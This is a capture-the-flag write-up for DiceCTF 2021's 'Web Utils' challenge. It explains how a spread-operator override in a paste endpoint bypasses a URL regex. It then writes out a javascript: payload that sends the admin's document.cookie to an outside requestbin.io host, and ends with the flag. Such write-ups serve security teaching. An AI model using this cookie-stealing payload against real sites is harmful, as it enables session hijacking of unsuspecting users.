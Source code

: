 # Web Utils (131 Solves/121 Points)

```
My friend made this dumb tool; can you try and steal his cookies? If you send me a link, I can pass it along.

dumb tool: https://web-utils.dicec.tf/
pass it along: https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils 
```

We are again given the source code `app.zip`, which seems to be much larger this time.

Looking at the site, we see a "`Link Shortener`" and "`Pastebin`", and as their name suggests, 1 takes a link and "shortens" it, while the other is a pastebin.

When we try to insert some kind of `HTML` into the `Pastebin`, we will see that it does not work at all. A quick look at the source code in `public/view.html` reveals why:

```javascript
document.title = 'Paste';
document.querySelector('div').textContent = data;
```

As seen above, the data that we sent is being set into `textContent`, which is **never renders any HTML/JS/CSS**, so this road is probably a dead-end.



Looking at the other function: `Link Shorterner`, we see something interesting:

```javascript
if (! data || ! type ) window.location = window.origin;
if (type === 'link') return window.location = data;
```

It seems like how this works is that it sets data (the link we entered), as `window.location` to redirect the user there.

As some might know, there is a way to **run Javascript in a URL** via something like `javascript:alert(1)`.

However, there is a cache to this. When we try to submit `javascript:alert(1)`, we will get an "Invalid URL" response.  Looking at `api.js` for the `createLink` endpoint, we will see why:

```javascript
const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
          .code(200)
          .header('Content-Type', 'application/json; charset=utf-8')
          .send({
            statusCode: 200,
            error: 'Invalid URL'
          });
```

There is a **Regex which restricts the start** to **strictly** `http://` or `https://` only, and it seems to be flawless. Hence we are unable to put `javascript` as the start.

Looking around the source code, we then noticed something was peculiar about the **parameters being called to `addData`**:

```javascript
database.addData({ type: 'link', ...req.body, uid });
```

`...` is a **spread operator in Javascript**. It will **<u>replace</u> any key-value pairs that are identical to the key-value pairs in `req.body`**

So what that means is that we can do something like:

```javascript
test = {a: 3}
test2 = {a: 1, b: 2, c:3, ...test}
> {a: 3, b: 2, c: 3}
```

and the value of `a` in `test2` is **overwritten** by the value in `test`.

Hence, we can make use of the **`createPaste`** endpoint to **skip the regex check**, and then **override `type` to a "link" so that will set the contents to `window.location`**. Hence, we have effectively created a "link" that has bypassed the regex check.

We can send the following payload via `POST` to `https://web-utils.dicec.tf/api/createPaste`

```json
{"data": "javascript: fetch(`https://requestbin.io/qykha7qy?data=${encodeURIComponent(document.cookie)}`)", "type": "link"}
```

and we get the link to send to the `Admin Bot`:

```json
{
    "statusCode": 200,
    "data": "mxXqx0q2"
}
//https://web-utils.dicec.tf/view/mxXqx0q2
```

This yields the flag:

```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```

